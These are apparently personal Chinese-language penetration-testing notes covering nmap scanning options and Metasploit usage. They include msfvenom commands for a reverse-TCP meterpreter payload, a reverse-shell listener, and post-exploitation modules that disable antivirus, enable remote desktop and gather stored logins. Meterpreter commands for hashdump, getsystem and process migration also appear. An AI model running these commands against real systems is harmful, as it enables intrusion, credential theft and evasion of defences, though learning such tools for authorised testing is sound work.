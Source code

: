 #### 1.namp

##### 1. 主机发现：

```
-PS Syn Ping,那就是TCP
-PA ask Ping，也是TCP
-PU ping udp，
-PE  #ICMP PING，很多主机都封锁了，适用于管理员监视内部

-n 不对活动的ip进行反向域名解析，提高扫描速度
-R 对活动的IP进行反向域名解析
```

默认主机发现命令：

```sh
nmap xxx.xxx.xxx.1-255
```

Nmap会发送一个ICMP的echo请求，一个TCP SYN包给443端口，一个TCP ACK包给80端口，一个ICMP时间戳请求。

会返回一个IP地址段中活动的主机，IP地址，主机域名，开启的服务以及相应的端口，MAC地址等。

其他命令：

```sh
nmap -sP xxx.xxx.xxx.xxx # ping扫描，只列出存活主机
namp -Pn xxx.xxx.xxx.xxx # 无ping扫描，结果和默认主机发现一样
```

其他参数：

```sh
-O # 启用操作系统检测
-sV # 探测服务版本信息
-v # 啰嗦模式
--script=script_name # nse脚本
```



##### 2. 端口扫描

```sh
nmap -p 1-65535 xxx.xxx.xxx.xxx #-p 扫描指定端口
```

###### 1.常用扫描参数：

```sh
-sT #扫描用TCP连接
-sS #扫描用syn
-sU #扫描用UDP
-sA #扫描用ACK
-sF #扫描用FIN
```



###### 2.nmap识别的6种端口状态：

- open：应用程序使用该端口接受TCP或UDP报文

- close：nmap能收到响应，但是没有应用在此端口监听

- filtered（被过滤）：探测报文被过滤，nmap无法确认端口是否开放。过滤设备可能是`专业防火墙设备`，`路由规则`或`主机上的软件防火墙`

- unfiltered：未被过滤状态意味着端口可访问，但Nmap不能确定它是开放还是关闭。

  只有用于映射防火墙规则集的ACK扫描才会把端口分类到这种状态。

- open|filtered（开放或被过滤）：开放端口但不响应。也有可能是被过滤掉。

- closed|filtered（关闭或被过滤）：该状态用于Nmap不能确定端口是关闭的还是被过滤的。



##### 3. 防火墙、IDS逃逸





#### 2. Metasploit

##### 1. 模块划分

- 辅助模块（Auxiliary，扫描器），扫描主机，寻找可用漏洞
- 渗透攻击模块（Exploit），漏洞利用
- 攻击载荷模块（Payloads），
- 后渗透模块（Post），内网渗透操作
- 编码器模块（Encoders），选择编码技术，绕过杀软。

模块所在地址: `/usr/share/metasploit-framework/modules/`

使用步骤：

```sh
search xxx
use xxx
show options
set xxxx yyyy
run
```

一些其他命令：

```sh
reload_all  #重载所有模块,导入自定义模块后，
back # 后退，移除当前上下文，用于切换模块
info # 目标和模块详细信息

session # 会话管理
session -l #列出所有绘画
session -K # 终止
session -i id # 进入某个会话

show xxx

```



##### 2. 攻击载荷和编码

msf下

```sh
use windows/meterpreter_reverse_http	
```



使用msfvenom

```sh
msfvenom -p windows/x64/meterpreter/reterse_tcp Lhost=攻击机的ip Lport=攻击机监听端口 -f exe > msf.exe	
# -p 指定payload
# -e 编码器
# -i 迭代器
# -f 输出格式
```

###### 1. 监听反弹shell

```sh
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp #
> set lhost xxx.xxx.xxx.xxx
> set lport xx
> run
```



##### 3. 后渗透

```sh
run post/windows/gather/checkvm		#检查目标是否虚拟机
run post/linux/gather/checkvm
run post/windows/manage/killav		#关闭杀软
run post/windows/manage/enable_rdp	#开启目标远程桌面
run post/windows/gather/enum_logged_on_users	#列举当前登陆用户，和最近登陆过的用户
run post/windows/gather/enum_applications		#列举应用程序
run windows/gather/credentials/windows_autologin #列举自动登陆的用户名和密码
```



##### 4. 持久化

刚获得`meterpreter shell`时，shell是很脆弱的，可以将他与目标主机中稳定的程序进行绑定。

一般找上`NT AUTHORITY\SYSTEM`的进程，该账号的权限跟管理员admin一样高优先级。

```shell
getpid # 查看meterpreter shell进行id
ps # 获取目标主机正在运行的进程
migrate 476 # 将shell迁移到pid为476的进程中
```

###### 1. Persistence模块



###### 2. 命令摘要

```sh
pwd,ls,cd
getuid # 查看当前权限
getsystem # 获得系统管理员权限，要本地管理员权限
hashdump #  抓取哈西密码
sysinfo # 查看系统信息
idletime # 查看目标系统已经运行时间
route #查看目标主机网络设置
shell # 进入目标主机shell，exit退出shell
background # 将meterpreter隐藏在后台

upload path  # 上传文件
download path  # 下载文件
search -f path # 搜索文件

sudo rdesktop -f 目标id # kali-linux 登录远程桌面
route add IP 子关掩码 # 添加路由，先background 
```

